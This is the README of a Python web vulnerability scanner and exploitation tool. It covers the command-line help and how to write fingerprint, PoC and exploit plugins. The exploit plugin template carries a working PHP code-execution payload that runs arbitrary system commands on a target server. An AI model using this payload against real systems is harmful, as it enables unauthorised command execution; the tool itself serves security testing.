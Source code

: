 <h1 align="center">CVS - ClosureVulnScanner</h1>
<p align="center">
  基于Python的Web综合漏洞扫描器,名字取自<b>Arknights® Closure</b>
  <br><br>
  <a href='https://blog.ysneko.com'><img src="https://img.shields.io/static/v1?label=Powered%20by&message=Y5neKO&color=green" alt="Author"></a>
  <a href='https://www.python.org/'><img src="https://img.shields.io/static/v1?label=Python&message=1.8&color=yellow" alt="Python"></a>
  <br><br>
  <a href="#">
    <img src="https://img.shields.io/badge/Supported%20by-Alipay🈲%20%E2%86%92-gray.svg?colorA=655BE1&colorB=4F44D6&style=for-the-badge" alt="支付宝"/>
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Supported%20by-WechatPay🈲%20%E2%86%92-gray.svg?colorA=61c265&colorB=4CAF50&style=for-the-badge" alt="微信支付"/>
  </a>
  <br><br>
  <a>———— </a>
  <br>
  <a>———— </a>
  <br><br>
  <img src="Closure.png" alt="Closure" style="zoom:50%;" />
</p>

## CVS - ClosureVulnScanner

- **v0.0**: 目前正在开发中，广泛征求意见.
- **v0.1**: 实现了基础功能，包括指纹、exp、poc、多线程以及代理等功能.


## 默认配置
`Python 3_8_0`  |  `PyCharm 2023.2.3`  |  `Windows 11`  |  `UTF-8`


## 版本&更新日志
**版本** v0.1

- *2023.10.26* | First init.
- *2023.11.01* | v0.1版本发布.



## 使用说明

```sh
root#
-> python ClosureVulnScanner.py -h

    ,ad8888ba,   88
   d8"'    `"8b  88
  d8'            88
  88             88   ,adPPYba,   ,adPPYba,  88       88  8b,dPPYba,   ,adPPYba,
  88             88  a8"     "8a  I8[    ""  88       88  88P'   "Y8  a8P_____88
  Y8,            88  8b       d8   `"Y8ba,   88       88  88          8PP"
   Y8a.    .a8P  88  "8a,   ,a8"  aa    ]8I  "8a,   ,a88  88          "8b,   ,aa
    `"Y8888Y"'   88   `"YbbdP"'   `"YbbdP"'   `"YbbdP'Y8  88           `"Ybbd8"'

                                                                           By Y5neKO :)

欢迎使用Closure Vulnerability Scanner
Github: https://github.com/Y5neKO

usage: ClosureVulnScanner.py [-h] [-u URL] [-e {identify,scan,exp}] [--exp EXP_NAME] [--cmd CMD] [-t TIMEOUT] [--proxy PROXY] [-o OUTPUT]
                             [--list LIST_POC_NAME] [--add-poc ADD_POC_NAME] [--add-exp ADD_EXP_NAME]

使用帮助

optional arguments:
  -h, --help            show this help message and exit

扫描参数:
  -u URL                目标url, example: http(s)://www.baidu.com/
  -e {identify,scan,exp}
                        指定操作类型, 默认为资产识别。identify:资产识别 | scan:漏洞扫描 | exp:漏洞利用
  --exp EXP_NAME        指定exp模块, 使用exp目录内插件
  --cmd CMD             指定exp模块命令执行
  -t TIMEOUT            设置超时时间(ms), 默认5000ms
  --proxy PROXY         使用代理, 目前支持Socks,HTTP; 格式:{socks|http}://ip_addr:port
  -o OUTPUT             输出扫描结果到指定路径

拓展参数:
  --list LIST_POC_NAME  列出已经加载的poc插件
  --add-poc ADD_POC_NAME
                        添加poc插件
  --add-exp ADD_EXP_NAME
                        添加exp插件
```



## 目录及功能描述

`core`: 核心功能目录

`exp`: 漏洞利用模块插件目录

`ez_poc`: 简单发包型poc验证模块插件目录

`finger`: 指纹信息目录

`log`: 程序日志目录

`poc`: 复杂poc验证模块插件目录



## 指纹模块编写规范

**添加方式**：

在`finger/finger.json`文件内的AssetName字段内增加即可

```json
{
  "AssetName": {}
}
```

**编写规范**：

```json
"资产名称": {
      "description": "指纹描述",
      "payload": {
        "method": "请求协议",
        "uri": "请求uri",
        "headers": {
          "头部字段1": "头部键值1"
        },
        "body": {
            "请求字段1": "请求键值1"
        }
      },
      "keywords": "验证关键字，支持正则表达式"
    }
```



## POC模块编写规范

### 简单POC模块

仅需要发包就可以验证的poc

**添加方式**：

在`ez_poc/ez_poc.json`文件内的PocName字段内增加即可

```json
{
  "PocName": {}
}
```

**编写规范**：

```json
"漏洞名称": {
      "description": "漏洞描述",
      "payload": {
        "method": "请求协议",
        "uri": "uri路径",
        "headers": {
          "头部字段1": "头部键值1"
        },
        "body": {
            "请求字段1": "请求键值1"
        }
      },
      "keywords": "验证关键字，支持正则表达式"
    }
```

### 复杂POC模块

需要经过复杂逻辑才能验证的poc

**添加方式**：

将python模块文件添加到poc目录

- 文件名规范：`资产名称_漏洞名称.py`
- 执行导入命令，写入poc索引文件：`python CVS.py --add-poc {模块名，必须和模块文件保持一致}`

**编写规范**：

```python
# 需要自行导入所需要包
import XXX

# 函数定义为 run(url, timeout)
def run(url, timeout):
    """
    参数描述
    @param url: 目标地址
    @param timeout: 超时时间
    @return result: 一个包括所有返回结果的列表
    """
    result = {
        'name': '漏洞名称',
        'vulnerable': False,	# 漏洞验证成功标识
        'method': None,			# 漏洞请求协议
        'url': None,			# 验证目标地址
        'payload': None			# 验证payload
    }
    """
    自定义代码段，根据编写逻辑，赋值并返回结果即可
    """
    return result
```



## EXP模块编写规范

用于漏洞利用

将python模块文件添加到exp目录

- 文件名规范：`资产名称_漏洞名称.py`
- 执行导入命令，写入exp索引文件：`python CVS.py --add-exp {模块名，必须和模块文件保持一致}`

```python
# 需要自行导入所需要包
import XXX

# 函数定义为 run(url, cmd)
def run(url, cmd):
    """
    参数描述
    @param url: 目标地址
    @param cmd: 指定命令执行，就算无法直接执行命令，也需要定义形参
    @return {bool, string}: 执行成功标识和返回结果，用于命令回显，无回显自行说明即可；命令回显返回结果需用“{{{{{回显}}}}}”格式包裹，用于从响应中识别命令回显结果
    """
    payload = r'/index.php?s=a/b/c/${@print(eval($_POST[cmd]))}'
    payload = urllib.parse.urljoin(url, payload)
    response = requests.post(payload, data={"cmd": "echo '{{{{{';system('" + str(cmd) + "');echo '}}}}}';"})
    if response.status_code == 200:
        return True, response.text
    else:
        return False, "利用失败"
```



## 贡献者

@Y5neKO




## 使用许可
[MIT](LICENSE) © Y5neKO
